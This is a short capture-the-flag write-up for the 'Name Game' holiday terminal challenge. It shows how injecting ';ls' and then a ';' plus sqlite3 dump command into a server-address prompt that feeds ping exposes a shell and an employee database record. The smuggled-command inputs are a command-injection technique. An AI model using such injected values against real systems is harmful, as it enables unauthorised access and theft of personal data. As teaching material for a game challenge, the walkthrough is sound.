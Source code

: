 The Name Game
=============

Minty Candycane provides hints for **Objective 2** after you help her with the *The Name Game* Cranberry Pi terminal challenge.

Terminal Challenge
------------------
.. code-block:: none

 We just hired this new worker,
 Californian or New Yorker?
 Think he's making some new toy bag...
 My job is to make his name tag.

 Golly gee, I'm glad that you came,
 I recall naught but his last name!
 Use our system or your own plan,
 Find the first name of our guy "Chan!"
 
 -Bushy Evergreen

 To solve this challenge, determine the new worker's first name and submit to runtoanswer.




 ====================================================================
 =                                                                  =
 = S A N T A ' S  C A S T L E  E M P L O Y E E  O N B O A R D I N G =
 =                                                                  =
 ====================================================================




  Press  1 to start the onboard process.
  Press  2 to verify the system.
  Press  q to quit.


 Please make a selection: 

After typing ``2`` the following appears [#f1]_ :
.. code-block:: none
 Validating data store for employee onboard information.
 Enter address of server: 
We observed that if you type ``;ls`` it works as a normal shell.

We see that the following items appear: ``menu.ps1``, ``onboard.db`` and ``runtoanswer``.
Therefore, by using ``; /usr/bin/sqlite3 onboard.db .dump | grep 'Chan'`` we get:

.. code-block:: none

 Validating data store for employee onboard information.
 Enter address of server: ; /usr/bin/sqlite3 onboard.db .dump | grep 'Chan'
 Usage: ping [-aAbBdDfhLnOqrRUvV] [-c count] [-i interval] [-I interface]
             [-m mark] [-M pmtudisc_option] [-l preload] [-p pattern] [-Q tos]
             [-s packetsize] [-S sndbuf] [-t ttl] [-T timestamp_option]
             [-w deadline] [-W timeout] [hop1 ...] destination
 INSERT INTO "onboard" VALUES(84,'Scott','Chan','48 Colorado Way',NULL,'Los Angeles','90067','4017533509','scottmchan90067@gmail.com');
 onboard.db: SQLite 3.x database
 Press Enter to continue...: 

Therefore mr Chan's name is Scott.